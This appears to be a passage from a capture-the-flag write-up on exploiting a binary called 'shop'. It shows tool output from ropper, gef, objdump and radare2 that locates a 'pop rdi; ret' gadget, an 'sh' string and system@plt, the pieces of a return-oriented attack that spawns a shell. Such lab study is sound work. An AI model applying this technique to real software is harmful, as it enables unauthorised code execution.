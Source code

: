 `ropper --search 'pop rdi' -f ./shop`:
```
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: ./shop
0x00000000004015dd: pop rdi; ret; ←
```

`gdb ./shop`

```
gef➤  grep sh ←
[+] Searching 'sh' in memory
[+] In '/home/kali/shop'(0x402000-0x403000), permission=r--
  0x402070 - 0x402076  →   "shfpjx" 
  0x4021f5 - 0x4021f7  →   "sh" ←
[+] In '/home/kali/shop'(0x403000-0x404000), permission=r--
  0x403070 - 0x403076  →   "shfpjx" 
  0x4031f5 - 0x4031f7  →   "sh" 
[+] In '[heap]'(0x405000-0x426000), permission=rw-
  0x40531d - 0x40532a  →   "sh\n years.\n" 
[+] In '/usr/lib/x86_64-linux-gnu/libc.so.6'(0x7ffff7dc4000-0x7ffff7dea000), permission=r--
  0x7ffff7ddbae8 - 0x7ffff7ddbaea  →   "sh" 
  0x7ffff7ddf0a1 - 0x7ffff7ddf0a6  →   "shell" 
  0x7ffff7ddf3c7 - 0x7ffff7ddf3cd  →   "shared" 
  0x7ffff7ddf4c1 - 0x7ffff7ddf4d4  →   "sh_all_linebuffered" 
  0x7ffff7ddfcaa - 0x7ffff7ddfcb5  →   "sh_unlocked" 

[...]
```

`objdump -D ./shop | grep "system"`:
```
00000000004010f0 <system@plt>:
  4010f4:       f2 ff 25 35 2f 00 00    bnd jmp *0x2f35(%rip)        # 404030 <system@GLIBC_2.2.5>
  40124f:       e8 9c fe ff ff          call   4010f0 <system@plt> ←
```

`r2 ./shop`

```
[0x00401150]> aa ←
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00401150]> afl ←
0x00401150    1 38           entry0
0x00401190    4 33   -> 31   sym.deregister_tm_clones
0x004011c0    4 49           sym.register_tm_clones
0x00401200    3 33   -> 32   sym.__do_global_dtors_aux
0x00401230    1 6            entry.init0
0x00401750    1 13           sym._fini
0x00401274   10 301          sym.secret_q2
0x0040147e    7 198          sym.question_2
0x00401180    1 5            sym._dl_relocate_static_pie
0x004015d5    1 10           sym.wait_what
0x0040168f    5 193          main
0x004015e2    4 173          sym.writeResults
0x004013a1    4 100          sym.secret_q3
0x00401405    4 121          sym.question_1
0x00401544    4 145          sym.question_3
0x00401236    3 62           sym.print_prize ←
0x004010f0    1 11           sym.imp.system ←
0x00401100    1 11           sym.imp.printf
0x00401000    3 27           sym._init
0x004010c0    1 11           sym.imp.puts
```